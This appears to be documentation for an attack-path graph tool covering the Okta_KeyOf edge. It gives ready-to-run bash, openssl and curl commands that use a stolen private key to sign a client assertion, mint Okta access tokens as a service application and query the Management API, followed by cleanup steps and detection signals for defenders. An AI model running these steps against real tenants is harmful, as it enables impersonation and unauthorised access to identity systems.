

## General Information

The traversable Okta_KeyOf edges represent the relationships between Okta applications and the public JSON Web Keys (JWKs) configured for those applications:


```mermaid
graph LR
    app1("Okta_Application OpenHound Okta Collector")
    app2("Okta_Application Security Scanner")
    key1("Okta_JWK ABC123")
    key2("Okta_JWK DEF456")
    key3("Okta_JWK GHI789")
    key1 -- Okta_KeyOf --> app1
    key2 -- Okta_KeyOf --> app2
    key3 -- Okta_KeyOf --> app2
```

The `Okta_JWK` node represents public key metadata stored in Okta. The private key is not collected by OpenHound. This edge becomes an abuse path when the attacker has the private key corresponding to the source JWK.

## Abuse Info

An attacker who obtains the private key corresponding to the source `Okta_JWK` can authenticate as the destination `Okta_Application` when that app uses `private_key_jwt` client authentication. The public JWK in Okta is not a secret; it only tells Okta which private key signatures to trust for the destination client.

This is a high-value edge for OAuth service applications because signed client assertions can mint access tokens without a user session. For Okta Management API service apps, the resulting bearer token is constrained by both the scopes granted to the client and the admin roles assigned to the application. For non-Okta APIs, the token is constrained by the custom authorization server scopes and the downstream resource server.

Using the Admin Console:

1. Identify the destination application from the `Okta_KeyOf` edge.
2. Open **Applications** > **Applications** and select the destination application.
3. On the **General** tab, inspect **Client Credentials** and confirm the client authentication method is **Public key / Private key**.
4. Match the source `Okta_JWK` by key ID, key use, algorithm, status, creation time, or thumbprint-equivalent metadata.
5. Find the destination client ID and the authorization server token endpoint used by the application.
6. Use the recovered private key with the API steps below to sign a `client_assertion`, mint a token, and continue along any downstream application or Okta admin-role edges from the destination application.

Using the Okta API:

1. Set the org URL, destination app details, token endpoint, requested scope, and private key path.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export TARGET_APP_ID="0oa..."
    export CLIENT_ID="0oa..."
    export SOURCE_JWK_ID="pks..."
    export SOURCE_JWK_KID="kid-from-jwk"
    export PRIVATE_KEY_PEM="./recovered-private-key.pem"
    export TOKEN_ENDPOINT="$OKTA_ORG/oauth2/v1/token"
    export TOKEN_SCOPE="okta.users.read"
    ```

    Use `$OKTA_ORG/oauth2/v1/token` for the org authorization server, or `$OKTA_ORG/oauth2/{authorizationServerId}/v1/token` for a custom authorization server.

2. Optionally verify the public key metadata in Okta with an API credential that can read the destination application.

    ```bash
    export OKTA_API_TOKEN="REDACTED"

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/jwks/$SOURCE_JWK_ID" \
      | jq -r '{id, kid, kty, alg, use, status, created, lastUpdated}'
    ```

3. Build a signed JWT client assertion with the recovered private key. The `aud` claim must match the token endpoint, and `iss` and `sub` must match the client ID.

    ```bash
    b64url() {
      openssl base64 -A | tr '+/' '-_' | tr -d '='
    }

    export NOW="$(date +%s)"
    export EXP="$((NOW + 300))"
    export JTI="$(openssl rand -hex 16)"

    export JWT_HEADER="$(printf '{"alg":"RS256","kid":"%s","typ":"JWT"}' "$SOURCE_JWK_KID" | b64url)"
    export JWT_PAYLOAD="$(printf '{"iss":"%s","sub":"%s","aud":"%s","iat":%s,"exp":%s,"jti":"%s"}' "$CLIENT_ID" "$CLIENT_ID" "$TOKEN_ENDPOINT" "$NOW" "$EXP" "$JTI" | b64url)"
    export JWT_SIGNATURE="$(printf '%s.%s' "$JWT_HEADER" "$JWT_PAYLOAD" | openssl dgst -sha256 -sign "$PRIVATE_KEY_PEM" -binary | b64url)"
    export CLIENT_ASSERTION="$JWT_HEADER.$JWT_PAYLOAD.$JWT_SIGNATURE"
    ```

4. Exchange the assertion for an access token as the destination application.

    ```bash
    curl -sS -X POST \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "grant_type=client_credentials" \
      --data-urlencode "scope=$TOKEN_SCOPE" \
      --data-urlencode "client_assertion_type=urn:ietf:params:oauth:client-assertion-type:jwt-bearer" \
      --data-urlencode "client_assertion=$CLIENT_ASSERTION" \
      "$TOKEN_ENDPOINT" \
      | tee /tmp/okta-keyof-token.json

    export OKTA_ACCESS_TOKEN="$(jq -r '.access_token' /tmp/okta-keyof-token.json)"
    ```

    A successful response contains `token_type`, `expires_in`, `scope`, and `access_token`.

5. Verify the bearer token against an endpoint allowed by the destination application's scopes and admin roles.

    ```bash
    curl -sS \
      -H "Authorization: Bearer $OKTA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users?limit=1" \
      | jq -r '.[] | [.id, .status, .profile.login] | @tsv'
    ```

6. Continue as the destination application. If the app has privileged Okta role edges, call the allowed Okta Management API endpoints. If the app is used with a custom authorization server, use the token against the downstream resource server that accepts those scopes.

## Cleanup after Abuse

Cleanup for `Okta_KeyOf` means retiring the trusted public JWK that matches the exposed private key, deploying replacement key material, revoking tokens minted with the old key where possible, and reversing changes made as the destination application.

Cleanup using Admin Console:

1. Open **Applications** > **Applications** and select the destination application.
2. On the **General** tab, go to **Client Credentials**.
3. Add a replacement public key or generate a replacement public/private key pair. Store the new private key in the legitimate secret store before closing any one-time display dialog.
4. Update the legitimate workload to sign client assertions with the replacement private key.
5. Deactivate the source JWK that corresponds to the exposed private key.
6. Delete the inactive source JWK if it is no longer needed.
7. Revoke or expire downstream tokens and sessions issued to the destination application where the downstream system supports it.
8. Verify assertions signed with the old private key are rejected.

Cleanup using API:

1. Set cleanup variables for the destination application, exposed key, replacement public JWK, and token revocation.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_APP_ID="0oa..."
    export CLIENT_ID="0oa..."
    export EXPOSED_KEY_ID="pks..."
    export REPLACEMENT_PUBLIC_JWK_FILE="./replacement-public-jwk.json"
    export TOKEN_SCOPE="okta.users.read"
    export TOKEN_ENDPOINT="$OKTA_ORG/oauth2/v1/token"
    export REVOKE_ENDPOINT="$OKTA_ORG/oauth2/v1/revoke"
    export MINTED_ACCESS_TOKEN="eyJ..."
    ```

2. Add a replacement public JWK for the destination application.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      --data @"$REPLACEMENT_PUBLIC_JWK_FILE" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/jwks" \
      | tee /tmp/okta-keyof-replacement-jwk.json

    export REPLACEMENT_KEY_ID="$(jq -r '.id' /tmp/okta-keyof-replacement-jwk.json)"
    ```

3. Verify the replacement key is present and active.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/jwks/$REPLACEMENT_KEY_ID" \
      | jq -r '{id, kid, use, alg, status, created}'
    ```

4. Move the legitimate workload to the replacement private key, then deactivate the exposed source JWK.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/jwks/$EXPOSED_KEY_ID/lifecycle/deactivate"
    ```

    A successful response returns the JWK with `status` set to `INACTIVE`.

5. Delete the inactive exposed key.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/jwks/$EXPOSED_KEY_ID"
    ```

    A successful delete returns `204 No Content`.

6. Revoke a known access token minted through the exposed key. Use a current client assertion signed with the replacement key for client authentication to the revoke endpoint.

    ```bash
    export CURRENT_CLIENT_ASSERTION="JWT_SIGNED_WITH_REPLACEMENT_PRIVATE_KEY"

    curl -i -sS -X POST \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "token=$MINTED_ACCESS_TOKEN" \
      --data-urlencode "token_type_hint=access_token" \
      --data-urlencode "client_assertion_type=urn:ietf:params:oauth:client-assertion-type:jwt-bearer" \
      --data-urlencode "client_assertion=$CURRENT_CLIENT_ASSERTION" \
      "$REVOKE_ENDPOINT"
    ```

    Token revocation returns `200 OK` even if the token is already invalid.

7. Verify the exposed key is gone or inactive.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/jwks" \
      | jq -r --arg id "$EXPOSED_KEY_ID" '.jwks.keys[]? | select(.id == $id) | [.id, .kid, .status] | @tsv'
    ```

8. Verify assertions signed by the old private key fail at the token endpoint.

    ```bash
    export OLD_CLIENT_ASSERTION="JWT_SIGNED_WITH_EXPOSED_PRIVATE_KEY"

    curl -i -sS -X POST \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "grant_type=client_credentials" \
      --data-urlencode "scope=$TOKEN_SCOPE" \
      --data-urlencode "client_assertion_type=urn:ietf:params:oauth:client-assertion-type:jwt-bearer" \
      --data-urlencode "client_assertion=$OLD_CLIENT_ASSERTION" \
      "$TOKEN_ENDPOINT"
    ```

    The expected result is an OAuth error such as `invalid_client`.

## Opsec Considerations

Private-key JWT abuse does not send the private key to Okta, but it does create OAuth token grants for the destination client and later API activity with that bearer token. Relevant Okta System Log event types include `app.oauth2.credentials.lifecycle.create`, `app.oauth2.credentials.lifecycle.activate`, `app.oauth2.credentials.lifecycle.deactivate`, `app.oauth2.credentials.lifecycle.delete`, `app.oauth2.token.revoke`, and `app.oauth2.as.token.revoke`.

Watch for token requests using unexpected key IDs, unfamiliar source IPs, new automation hosts, unusual scopes, abnormal `jti` patterns, and management API calls that do not match the service application's normal job. Key rotation, deactivation, and deletion are also high-signal events because production key rotation normally aligns with a planned deployment.

## References

- [Okta Application Public Keys API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationSSOPublicKeys/)
- [Okta OAuth for Okta service apps](https://developer.okta.com/docs/guides/implement-oauth-for-okta-serviceapp/main/)
- [Okta build a signed JWT](https://developer.okta.com/docs/guides/build-self-signed-jwt/)
- [Okta client authentication methods](https://developer.okta.com/docs/api/openapi/okta-oauth/guides/client-auth/)
- [Okta manage keys](https://developer.okta.com/docs/guides/key-management/main/)
- [Okta revoke tokens](https://developer.okta.com/docs/guides/revoke-tokens/main/)
- [Okta manage secrets and keys for OIDC apps](https://help.okta.com/en-us/Content/Topics/apps/oauth-client-cred-mgmt.htm)
- [Okta Client Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentClient/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Adam Chester: Okta for Red Teamers](https://blog.xpnsec.com/okta-for-redteamers/)
